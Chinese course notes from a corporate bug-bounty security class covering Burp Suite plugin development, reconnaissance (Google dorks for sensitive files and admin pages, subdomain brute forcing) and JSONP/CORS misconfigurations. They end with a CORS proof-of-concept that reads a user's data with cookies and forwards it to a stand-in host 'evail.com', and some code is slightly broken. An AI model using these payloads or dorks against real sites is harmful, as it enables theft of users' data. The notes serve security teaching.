# JDSRC安全课笔记

# 第一期

## 逻辑漏洞挖掘

   逻辑漏洞中的认证缺失和认证缺陷漏洞，主要指功能级访问控制缺失，出现任意增删改查用户信息的情况。实际业务场景中，这类漏洞大概两个成因，上线前没有做好认证处理，或权限环节控制不到位。基于工具开发，我们可以通过域名信息收集、站点信息爬取、规则的分析与提取，以及批量处理结果分析与展示四个环节快速发现认证缺失漏洞和认证缺陷漏洞。

# 第二期

## 基于 burpsuite的web逻辑漏洞插件开发

Burp Suite作为web应用程序渗透测试集成平台,常被用来进行网站渗透测试。BurpSuite 提供了插件开发接口，支持Java、Python、Ruby语言的扩展。虽然 BApp Store 上面已经提供了很多插件，其中也不乏优秀好用的插件，（推荐几个个人感觉好的插件）CO2,Logger++,Autorize,XSS Validator。但是通用化的工具无法完全符合web安全测试人员的特定需求。

1、为什么要独立开发插件  
2、开发环境配置说明；  
3、插件开发关键接口的使用实例；  
4、逻辑漏洞检测插件开发探讨；

1.为什么要独立开发插件  
随着厂商安全意识增强，传输过程中，大多数线上业务通过https传输，传输流量加密。无法做中间人攻击了就，服务端，数据库中的敏感数据加密存储，访问控制受限，即使拿到数据库也无法拿到明文数据。但是数据在客户端最终要展示给用户，必然明文展现。传统的安全防御设备和措施对逻辑漏洞收效甚微，现在攻击者更倾向于在客户端利用此类漏洞。而逻辑漏洞种类很多，通用化的工具无法完全符合web安全测试人员的特定需求。一个业务的逻辑漏洞抽象出来的模型，难以在其他业务层进行批量处理，通用的解决方案往往效果不佳。但是一个业务层抽象出来的模型，在其自身站点往往具有通用性。例如，某URL存在越权，可能该站点其他URL也可能存在类似的问题。我们基于该URL特征，开发burpsuite插件，批量扫描该站点，就能更全面的发现同类问题。因此，我们有必要根据自己的业务需求，自己能够独立开发插件。

2.开发环境配置  
Burp支持Java、Python、Ruby语言的扩展，本次讲座以python环境为 例进行说明。Burpsuite 是运行在java环境，所有的库是java所写。Python作为开发语言，调用Java库就要用到Jython。

以MacOS为 例子进行说明：  
brew install jython，就可以了，Burpsuite Jython环境的配置：Extender -> options -> python Environment -> select file,导入下载好的jython jar包。

3.：插件开发关键接口的使用实例，重点讲几个接口

API接口查阅可以从以下拿到：  
API接口文档可以在burpsuite 的Extender -> APIs  
也可以通过<https://portswigger.net/burp/extender/api/index.html进行查阅。>  
IBurpExtender  
IBurpExtender是Burpsuite插件的入口，所有插件的开发都必须要实现。  
当插件被建立以后，registerExtenderCallbacks也需要实现。  
代码如下：class BurpExtender(IBurpExtender):  
def registerExtenderCallbacks(self, callbacks):  
参数callbacks可获取核心基础库,例如日志，请求，返回值修改等。  
IExtensionHelpers:  
提供了编写扩展中常用的一些通用函数，比如编解码、构造请求、获取请求参数，获取请求头等。如：IRequestInfo analyzeRequest(byte[] request)  
通过analyzeRequest函数，可以拿到请求的细节。  
通过如下几个接口方法可以拿到。  
  
IHttpRequestResponse: 这个接口包含了每个请求和响应的细节。在Brupsuite中的每个请求或者响应都是IHttpRequestResponse实例。通过getRequest()， getResponse()方法可以获取请求和响应的细节信息。

以registerHttpListener为例进行代码说明：

  
如图所示，在user 和 webserver之间建立监听，调用HttpListener接口。获取请求，响应的日志。  
实现这个功能，最重要的是这个方法：

```plain
register ourselves as an HTTP listener callbacks.registerHttpListener(self)
    def registerExtenderCallbacks(self, callbacks):
        self._callbacks = callbacks
        self._helpers = callbacks.getHelpers()
        ## 设置插件名
        self._callbacks.setExtensionName("getTheRequest")
```

```
 # //如果没有注册，下面的processHttpMessage方法是不会生效的。处理请求和响应包的插件，这个应该是必要的

   callbacks.registerHttpListener(self)
### processHttpMessage(int toolFlag, boolean messageIsRequest, IHttpRequestResponse messageInfo)，
### 在messageInfo这个参数中，我们可以获取到request和response日志。
```

```python
 def processHttpMessage(self, toolFlag, messageIsRequest, messageInfo):
        if toolFlag == 4:
            if not messageIsRequest:
                request = messageInfo.getRequest()
                analyzedRequest = self._helpers.analyzeResponse(request)
                request_header = analyzedRequest.getHeaders()

                try:
                    method, path = res_path.findall(request_header[0])[0]
                    host = res_host.findall(request_header[1])[0]
                    url = method + " " + host + path
                except:
                    url = ""

                if method == "GET":
                    print “[+++++]The URL is ", url
                    print "[+++++]The host is ",host
                    print "[++++] The URI is following"
                    print path
                    for iterm in path.split("/"):
                        print iterm
                    print "======================================================================================"
`
```

`代码如上所示，就可以打印出URL，HOST，URI日志信息`  
  
这是一个demo。延伸一下，我们在做渗透测试的过程中，往往苦于目录字典不全，我们将这个URI生成目录字典，为目录爆破做准备。

---

如果做扫描类插件：  
class BurpExtender(IBurpExtender,IScannerCheck)  
callbacks.registerScannerCheck(this);  
实现IScannerCheck后需要重写被动扫描的函数。  
doPassiveScan(IHttpRequestResponse baseRequestResponse) {}  
doPassiveScan这个接口，在baseRequestResponse获取请求和响应数据，并利用这些数据进行基于扫描规则进行扫描。

# 第四期 SRC挖掘

首先将公司架构吧，我们就以京东为例吧

企业的组织架构信息可通过开源信息获取。  
常用的方法，通过维基百科，百度百科等确定企业的大体组织架构；  
zh.wikipedia.org  
baike.baidu.com

结合以下站点信息，进一步确定企业组织架构：  
国家企业信用公示系统：<http://www.gsxt.gov.cn/index.html>  
天眼查：<https://www.tianyancha.com/>

公司架构确定完成后，我们开始被动信息的收集

被动信息收集是指不与目标直接交互，通过公开的渠道获取获取目标信息。  
可从以下几点展开，DNS信息收集，https证书信息，搜索引擎，网络空间安全搜索引擎，基于备案资料信息收集。

DNS信息收集  
通过目标站点的域名注册信息，如whois日志进行信息关联。

国外常用的whois查询站点：  
<https://who.is/>  
<https://whois.cymru.com/cgi-bin/whois.cgi>  
<https://whois.arin.net/ui/query.do>

国内常用的whois查询站点：  
[图片]<http://whois.chinaz.com/>  
<https://whois.aizhan.com/>

通过whois查询确定注册者，然后关联同一注册者的其他站点信息。

<https://viewdns.info/reversewhois/?q=email@111.com>  
<https://whois.chinaz.com/reverse?ddlSearchMode=2>

https证书信息，即通过https证书进行信息收集，可通过采用以下几种方式

基于证书透明度两个站点：  
<https://certspotter.com/api/v0/certs>  
<https://crt.sh>

为方便信息处理，可编写脚本处理：  
crtFetch -d example.com

  
我们看到就可以梳理出一部分子域名信息了  
脚本位置：<https://github.com/3stoneBrother/personalTools/blob/master/scripts/crtFetch.py>

该脚本对在线站点获取的域名进行清洗，可获取到单域名SSL证书和通配符SSL证书两类。

有时候我们可能忽略的地方，有些企业的https证书中的相关域名可在浏览器证书中点击查看；

  


基于goolge hack技术可以查询到很多敏感信息。  
更详细的用法可在这里查询：  
<https://www.exploit-db.com/google-hacking-database>

我们常用关键字查询：  
site：搜索域名的范围  
inurl：URL格式  
intitle：搜索的网页标题  
intext：搜索包含其中文字的网页  
filetype：搜索文件的后缀或者扩展名  
cache：搜索搜索引擎里关于某些内容的缓存，可能会在过期内容中发现有价值的信息  
link：搜索某个网站的链接  
info：查找指定站点的一些基本信息

## 【查找敏感文件】

site:xxx.com (filetype:doc OR filetype:ppt OR filetype:pps OR filetype:xls OR filetype:docx OR filetype:pptx OR filetype:ppsx OR filetype:xlsx OR filetype:odt OR filetype:ods OR filetype:odg OR filetype:odp OR filetype:pdf OR filetype:wpd OR filetype:svg OR filetype:svgz OR filetype:indd OR filetype:rdp OR filetype:sql OR filetype:xml OR filetype:db OR filetype:mdb OR filetype:sqlite)

## 【查找敏感目录地址】

site:xxx.com inurl:login|admin|manage|admin\_login|system|user|auth|dev|test  
site:xxx.com intitle:后台|管理|内部|登录|系统

以下可能是我们会忽略的几个关键字查询语句：

### 基于备案号，copyright信息查询

intext:”Tesla © 2020”  
intext:”京ICP备11041704号-15”

## 可以正则的形式

site:dev.*.*/signin  
site:*/recover-pass  
site:smtp.*.*/login  
site:/com:*  
site:/216.75.*.*

##基于端口或者端口范围查询  
site:/com:8443/  
site:/com:\* 8000…9000

查询到的关键词，利用备案信息可以大致确定各个站点的域名信息。

  
curl <http://www.beianbeian.com/search-1/example.html> | grep “  
“ | grep -o “www.\w*.\w*“ | sort | uniq |sed “s/www.//g”



不断的根据网络备案/许可证号进行反查，即可梳理更多的资产信息。  
确定企业的IP段，可基于<https://bgp.he.net/站点进行收集。>  
输入公司名称可查询该公司的IP资产信息，然后正则匹配IP段：  
cat aa.txt| grep -Eo “<td>.*?td>“| grep “href”| grep -Eo “([0-9]{1,3}[.]){3}[0-9]{1,3}/*[0-9]{0,2}”

## 微信公共号

基于公众号信息，我们可以挖掘到很多的厂商业务信息。公司的公众号信息可在sogou搜索引擎可以进行查询。  
<https://weixin.sogou.com/weixin?type=1&ie=utf8&query=%E4%BA%AC%E4%B8%9C>  
为便于快速梳理，可用脚本处理。  
python gongzhonghao.py -d “目标公司”  
<https://github.com/3stoneBrother/personalTools/blob/master/scripts/gongzhonghao.py>

  
这就得到某公司的所有公众号信息

## 主动信息收集

通过被动信息收集到一批域名，IP信息。以主动信息比较容易忽略的三级域名，甚至四级域名为例进行说明。通配符SSL证书往往是三级、四级域名高效爆破的目标，为批量处理，在crtFetch脚本中提取了需要进一步爆破的三级、四级域名。

然后进行域名爆破，爆破工具有很多，以gobuster为例进行演示：  
gobuster dns -t 30 -w sub\_name.txt -i -q –wildcard -d api.example.com| tee domains-active.txt

  
这些三级四级域名，防护往往会薄弱一些

域名是否存活可利用httprobe工具确定。  
cat domain.txt | httprobe > domain-alive.txt

  
也可通过whatweb查看链接的服务器版本，标题等信息，处理结果如下图所示  
  
为便于批量查看URL内容，我们可通过屏幕截图工具webscreenshot进行处理。  
具体方法如下：首先将存活的站点截图到screenshots文件夹下面：  
webscreenshot -i alive.txt -o screenshots -w 20 -m -a “X-FORWARDED-FOR:127.0.0.1”  
为便于浏览，我们将截图生成一个html文件便于在浏览器查看：  
for I in $(ls -S); do echo “$I” >> index.html；echo “<\ img src=$I><br>” >> index.html； done  
在浏览器中打开 index.html文件，就可看到所有的网页截图了。效果如下图，所有存活站点都在一个页面展现出来。可根据站点内容做进一步的渗透测试。

---

# 第五期

   在企业级应用开发中，经常会遇到跨域数据交互的问题，例如多个子集应用之间通过跨域获取用户登录状态及身份信息等，从而能够满足现代web应用中的实际需求。因此谈到跨域就要了解下浏览器的同源策略。  
   浏览器的同源策略（Same Origin Policy,SOP）,同源要求两个页面具有相同的协议、域名、端口号。当A应用(<https://www.a.com)想请求B应用(https://www.b.com)里面的某个接口>(提交操作）或者读取接口返回的数据作进一步的处理的话，这时就需要考虑跨域问题了，一般情况下浏览器会阻止这种不安全的跨域行为。但在html语言中，有些标签是具备天然的跨域功能的，比如<script>、、<iframe>等标签是可以直接跨域请求其它域的资源的，这就催生了JSONP(JSON with Padding)，JSONP本质上是利用了<script>标签的跨域能力。

## JSONP跨域安全开发实践方面

a.com 想要跨域读取b.com下的/getinfo的返回数据，a.com前端示例代码如下：

```php
<script>    
function jsonp_callback(msg){      
 do something();//回调函数，自定义读取数据后续操作    
}
</script>
<script src ="http://b.com/getinfo?callback=jsonp_callback" type="text/javascript" ></script>
```

b.com后台示例代码如下

```php
@RequestMapping(value="/getinfo",method=RequestMethod.GET)
@ResponseBody
public String getToken(@RequestParam("callback") String callbackFunction){  
return callbackFunction+"{\"result\":{\"data\":{\"token\":\"18623163885dedec5decbab1.37745340\"}}};";
    
  }
```

则此时 而此时b.com 响应报文返回的json数据为：jsonp\_callback({“result”:{“data”:{“token”:”18623163885dedec5decbab1.37745340”}}});然后a.com能够获取返回的数据

---

## jsonp开发实践中经常会出现的一些问题

1. 未正确设置响应报文头Content-Type 而导致的反射型XSS一般来说，默认的响应报文头`Content-Type:text/html`，则此时容易产生反射型xss，从而进一步获取数据。因此我们可通过设置Content-Type为`application/json`指明返回的报文体是json格式的，避免浏览器解析执行。这个主要是后端是根据前面传入的callback参数的，因此可能导致反射型xss 。
2. JSONP劫持：有些web应用，尤其是同域名下的不同子域之间，通过JSONP方式传输敏感信息，例如用户信息、支付信息、鉴权token等，就要关注JSONP劫持问题了。

一个简单的劫持的代码片段，对于这种jsonp劫持问题，一般企业是对返回的数据做了脱敏处理。尤其对于 姓名 身份证号 手机号 银行卡号之类的个人敏感信息一般只保留其中的几个字符，其他用\*号代替。

```javascript
<script> function jsonp_callback(msg){      
   //alert(msg);        
   do_evilSomething();//发送敏感数据  }
</script>
<script src =http://b.com/getinfo?callback=jsonp_callback type="text/javascript" > </script>
```

不得不提到，JSONP跨域数据传输只能通过GET方式，下面再介绍另外一种跨域方法—CORS。

---

## cors

   我们常说的跨域资源共享(CORS) 是一种机制，它使用额外的 HTTP 头来告诉浏览器让运行在一个 origin (domain) 上的Web应用被准许访问来自不同源服务器上的指定的资源。当一个资源从与该资源本身所在的服务器不同的域、协议或端口请求一个资源时，资源会发起一个跨域 HTTP 请求。但是浏览器决定是否阻断此次请求是要看被跨域请求的网站（b.com）的返回头header中是否包含“授权访问标头”—Access-Control-Allow-Origin。

一个cors请求代码示例：

  
  
   响应中响应首部字段 Access-Control-Allow-Origin: \* 表明，该资源可以被任意外域访问。如果服务端仅允许来自 <http://foo.example> 的访问，该首部字段的内容如下：Access-Control-Allow-Origin: <http://foo.example> 。

   当然这次请求会成功，但是当我们把上面的代码片段中:  
xmlhttp.setRequestHeader(“Content-Type”,”application/json”);  
我们会发现浏览器会多一步操作就是先发送一个 OPTIONS方法请求，通常也称为预请求。火狐等浏览器规定是以下情况的请求需要先进行“预检”。  
   当请求满足下述任一条件时，即应首先发送预检请求：  
Content-Type 的值不属于下列之一:

> application/x-www-form-urlencoded  
> multipart/form-data  
> text/plain

   使用了下面任一 HTTP 方法：`PUT DELETE CONNECT OPTIONS TRACE PATCH`，还有人为设置了对 CORS 安全的首部字段集合之外的其他首部字段等。如果需要跨域请求带上被请求域的Cookie，则需要响应中响应首部字段：`Access-Control-Allow-Credentials: true` ，但同时浏览器为了安全起见，同时和`Access-Control-Allow-Origin: *`使用请求会被直接阻断。

## CORS中开发误配置所导致的安全问题：

（1）Access-Control-Allow-Origin 误配置获取敏感数据  
一般有些应用确实不允许跨域，但若web中间件（例如nginx）上被误配置（尤其和其它应用使用同一个nginx做反向代理【add\_header ‘Access-Control-Allow-Origin’ $origin;】）就会造成本级应用被强制允许跨域。  
(2）本级应用允许跨域，但编写正则可绕过  
(3) 绕过预检请求的写操作CSRF  
   假如应用A与应用B的某个接口之间(数据传输使用json格式)存在跨域资源共享，但应用B未校验Content-Type，因此可通过XMLHttpRequest设置`Content-Type为"text/plain"`绕过预检请求  
   携带cookie发送请求报文到B的服务端。（若浏览器发现B返回的报文头没有`Access-Control-Allow-Origin`和`Access-Control-Allow-Credentials: true`字段，则不允许读取返回的数据）

```javascript
<html>
<script>
function jsonreq() {
var xmlhttp = new XMLHttpRequest();
xmlhttp.withCredentials = true;
xmlhttp.open("GET","https://www.b.com/getuserinfo", true);
xmlhttp.setRequestHeader("Content-Type","text/plain");//注意这里
xmlhttp.send(null);
xhr.onreadystatechange = function(){ 
var res= xhr.responseText; // 读取返回的数据 
location='http://evail.com?param='+res; 
 }
}
jsonreq();
</script>
</html>
```

---
